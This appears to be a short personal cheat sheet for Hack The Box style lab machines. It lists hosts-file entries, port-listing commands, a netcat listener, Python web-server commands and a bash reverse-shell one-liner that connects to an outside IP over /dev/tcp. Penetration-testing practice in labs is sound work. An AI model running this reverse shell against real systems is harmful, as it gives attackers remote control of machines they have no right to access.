 ## Shell
echo to host file
```sh
echo "10.129.152.215 unika.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

open reverse shell

### Reverse shell Server
```sh
#create a listener for shell session
nc -nvlp 1337


#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000

```
### get own ip
```
ip a | grep tun0 

```

```sh
python -m http.server 8001
```